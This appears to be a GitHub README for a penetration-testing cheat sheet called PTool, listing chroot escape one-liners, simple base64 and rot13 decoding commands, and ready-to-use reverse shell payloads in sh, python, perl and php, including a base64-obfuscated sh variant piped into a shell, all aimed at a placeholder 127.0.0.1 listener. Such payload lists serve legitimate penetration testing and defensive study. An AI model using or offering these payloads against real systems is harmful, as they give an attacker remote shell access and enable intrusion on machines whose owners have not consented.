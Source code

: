 # PTool #
The [penetration test][0] tool set.

## Cheat Sheet ##

### chroot escape ###

| binary | script                                      |
|--------|---------------------------------------------|
| find   | find -exec '/bin/sh'                        |
| awk    | awk 'BEGIN {system("/bin/sh")}'             |
| python | python -c 'import os; os.system("/bin/sh")' |

### cryptography ###

| type   | command                    | description                 |
|--------|----------------------------|-----------------------------|
| base64 | base64 -d                  | decode the Base 64 encoding |
| rot13  | tr 'A-Za-z' 'N-ZA-Mn-za-m' | rot13                       |

### reversed shell ###

shell
```sh
sh -i >& /dev/tcp/127.0.0.1/5566 0>&1
```

shell with base64 encoding
```sh
# echo -n "/bin/sh -i >& /dev/tcp/127.0.0.1/5566 0>&1" | base64 | base64 -d | sh
echo "L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNTU2NiAwPiYx" | base64 -d | sh
```

python2
```python
import socket, os;

sk = socket.create_connection(("127.0.0.1", 5566))
fd = sk.fileno()
os.popen("bash -i <&{0} >&{0} 2>&{0}".format(fd))
```

python3
```python3
import socket, os, subprocess

sk = socket.create_connection(("127.0.0.1", 5566))
fd = sk.fileno()
subprocess.Popen(["/bin/sh", "-c", f"/bin/sh -i <{fd} >&{fd} 2>&{fd}"]);
```

perl
```perl
use Socket;

socket(s, AF_INET, SOCK_STREAM, 0);
connect(s, pack_sockaddr_in(5566, inet_aton("127.0.0.1"))) or die;
open(STDIN, ">&s");
open(STDOUT, ">&s");
open(STDERR, ">&s");
exec("/bin/sh -i");
```

php
```php
<?php $sk = fsockopen("127.0.0.1", 5566); exec("/bin/bash -i <&3 >&3 2>&3"); ?>
```


[0]: https://en.wikipedia.org/wiki/Penetration_test
